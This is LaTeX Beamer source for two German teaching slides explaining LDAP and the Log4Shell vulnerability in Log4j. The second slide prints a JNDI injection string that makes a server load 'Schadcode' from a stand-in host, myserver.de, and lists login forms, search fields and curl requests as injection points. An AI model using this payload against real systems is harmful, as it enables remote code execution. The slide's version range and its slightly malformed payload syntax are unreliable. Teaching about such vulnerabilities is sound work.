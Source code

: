 \documentclass{beamer}
\begin{document}
\subsection{Ldap}
\begin{frame}{LDAP}
$\Rightarrow$ 'Lightweight Directory Access Protocol'
 \begin{itemize}
  \item Protokoll für Nutzwerverwaltung\\
  - 'Darf sich dieser Nutzer einloggen?'\\
  - 'War dieser Nutzer schonmal hier?'
  \item Verwendung in Kombination mit Log4j und jndi\\
  $\Rightarrow$ 'Logge die Anzahl der Logins dieses Nutzters'
  \item Läuft meist als externe Server-Instanz
 \end{itemize}

\end{frame}
\section{Log4Shell}
\begin{frame}{Log4Shell}
\begin{center}
$\Rightarrow$ \textbf{\$\{jndi:ldap//:myserver.de/schadcode\}}
\end{center}
\begin{itemize}
\item Injektion durch User-Eingaben oder händisch\\
- Anmeldeformulare, Suchfunktion\\
- Http Request mit curl\\
 \item Ab Version 2.0 bis 2.5.1 möglich
\end{itemize}


\end{frame}
\end{document}

